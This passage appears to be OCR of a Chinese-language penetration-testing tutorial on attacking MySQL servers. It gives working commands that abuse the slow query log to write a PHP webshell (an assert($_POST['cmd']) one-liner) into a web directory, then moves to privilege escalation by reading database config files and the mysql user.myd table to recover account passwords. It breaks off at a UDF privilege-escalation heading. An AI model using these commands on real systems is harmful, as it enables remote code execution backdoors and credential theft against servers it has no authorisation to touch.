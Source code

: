 6.切记关闭

```bash
set global general_log = 'off';

```



7.访问webshell，后续操作







#### 方法二：slow_query_log

慢查询日志，用来记录在MySQL中响应时间超过阀值的语句。开启之后默认阀值是10s，可以更改此时间。

```bash
set global slow_query_log=on;

set global slow_query_log_file="c:\\phpStudy\\PHPTutorial\\wWwW\\3.php"

select sleep(15), '<?php assert($_POST[ "cmd"]);?>'

set global slow_query_log=off

```





## 权限提升

**常见密码获取方式：**
● 读取网站数据库配置文件（了解其命名规则及查找技巧）
sql, data, inc, config, conn, database, common, include等

● 读取数据库存储或备份文件（了解其数据库存储格式及对应内容）
位置：@@basedir/data/数据库名/表名.myd

```bash
# 先得到数据库安装目录
select @@basedir;
# mysql/user.myd是用户表，存储了用户的账号密码

# myd后缀的是数据表
xiaodi数据库名下的user信息 怎么写
mysql/data/xiaodi/user.myd

```

可以下载它之后然后进行还原



### 1.UDF导出提权(重点)
